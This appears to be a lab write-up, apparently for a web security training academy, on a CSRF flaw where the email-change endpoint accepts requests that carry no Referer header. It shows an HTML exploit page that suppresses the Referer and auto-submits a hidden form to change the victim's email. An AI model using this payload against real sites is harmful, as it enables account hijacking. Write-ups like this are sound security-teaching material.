



# CSRF where Referer validation depends on header being present
# Objective
This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.\
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.\
You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis 
There is no `csrf` token (or any other `crsf` security measure) in `/my-account/change-email`. In order to send valid request to change email, `Referer` header have to have correct domain. Alternatively, lack of `Referer` header in request results in successluf request to change email.
||
|:--:| 
| *Test of change email functionality* |
||
| *Modified Referer header - header is validated in change email reqeust* |
||
| *Successful request without referer header* |

## Exploitation
To exploit CSRF vulnerability, attacker can make browser skip `Referer` header bypassing validation of this header.

Exploit server configuration:
```html
<meta name="referrer" content="never"> 

<form method="POST" action="https://<id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@attack.attack">
</form>

<script>
        document.forms[0].submit();
</script>
```

||
|:--:| 
| *Exploit server configuration* |

